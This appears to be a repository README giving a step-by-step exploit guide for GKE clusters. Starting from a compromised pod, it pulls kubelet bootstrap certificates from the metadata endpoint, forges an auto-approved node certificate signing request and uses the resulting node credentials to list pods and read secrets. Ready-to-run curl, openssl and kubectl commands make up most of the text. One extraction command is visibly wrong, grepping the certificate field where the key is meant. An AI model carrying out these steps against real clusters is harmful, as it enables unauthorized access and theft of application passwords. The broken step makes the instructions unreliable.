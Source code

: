 ### How to get access into a K8s from inside k8s pod using Kubelet TLS Bootstrapping.

Required: You need to be a inside a pod and have kubectl curl installed.

### - How the exploit works.

1. Vulnerable Systems in GKE

- A cluster which has no workload identity and Metadata Concealment configured for k8s cluster
- A cluster with workload identity configured but the pod has hostNetwork: true flag in its spec

2. Description of the expolit

- Bootstrap certs are the main reason this exploit even works. If an attacker gets hold of the bootstrap.crt and bootstrap.key he can list and get CSR objects on k8s cluster which is exploited.
- In GCP there is something called metadata.google.internal endpoint which holds the metadata of the Compute Engine. All VMs in gce can access this endpoint to check the metadata pertaining to it.
- In case of GKE Nodes this endpoint contains a metadata which has all key , value pairs pertaining to GKE cluster eg: ca.cert, K8S api server endpoint etc.
- We will look for one such key value pairs called TPM_BOOTSTRAP_CERT and TPM_BOOTSTRAP_KEY and gain access to list , get and create CSR objects.

### Preparation for the exploit.

- You must have gained an RCE access to a pod inside the vulnerable cluster (By any means). And have kubectl and curl installed.

### The exploit.

- Once you are in the pod which is vulnerable, check if the following endpoint gives some data.

`curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env'`

- If you get some data from the above mentioned endpoint, look for TPM_BOOTSTRAP_CERT , TPM_BOOTSTRAP_KEY and CA_CERT and dump them.

```
curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep TPM_BOOTSTRAP_CERT | awk '{print $2}' | base64 -d > bootstrap.crt

curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep TPM_BOOTSTRAP_CERT | awk '{print $2}' | base64 -d > boostrap.key

curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep CA_CERT | awk '{print $2}' | base64 -d > ca.crt
```

- After dumping these certs , now the real expolits starts. Use the below command to view the CSR objects in the cluster. Also there KUBERNETES_PORT_443_TCP_ADDR is the endpoint of the API server or the masterIP:443

`kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get certificatesigningrequests`

- If you are able to list the csr objects then it is time to create one for yourself and access the cluster using your own certs. [More details on How to access cluster using the certs api is documented here](https://github.com/Vinayaks439/k8s-security-docs/blob/main/docs/CreateUser.MD)

- Create a key and CSR cert by using openssl command.

`openssl req -nodes -newkey rsa:2048 -keyout k8sgg.key -out k8sgg.csr  -subj "/O=system:nodes/CN=system:node:<NAME of the NODE>"`

**Note: Here the CN must be as mentioned above, you have to provide your name of the node where your current pod is running on (Else it wont be auto approved).**

- After you generate a CSR cert. It is time to create a CSR object in k8s cluster from within your pod.

```
cat <<EOF | kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} create -f -
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: node-csr-$(date +%s)
spec:
  groups:
  - system:nodes
  request: $(cat k8sgg.csr | base64 | tr -d '\n')
  signerName: kubernetes.io/kube-apiserver-client-kubelet ##If all rules are alinged it will be auto approved.
  expirationSeconds: 86400
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF
```

**Note: The spec.expirationSeconds field was added in Kubernetes v1.22. Earlier versions of Kubernetes do not honor this field. Kubernetes API servers prior to v1.22 will silently drop this field when the object is created.**

- Make sure your object alings well with this documentation which has rules pertaining to your [signerName](https://kubernetes.io/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers)

- Once your CSR object is auto aprroved and issued, you can fetch your signed public.crt using the following command below.

`kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get csr <CSR_NAME> -o jsonpath='{.status.certificate}' | base64 --decode > node.crt`

- Now finally you have a signed public.crt and a private.key which you generated and is now authenticated to the cluster. You can verify that by using your certs in the kubectl command.

`kubectl --client-certificate node.crt --client-key k8sgg.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get pods -o wide`

- Voila you just got access to pods by being inside a pod.

- You can use this cert to list secrets and fetch the passwords used by the application inside the cluster.
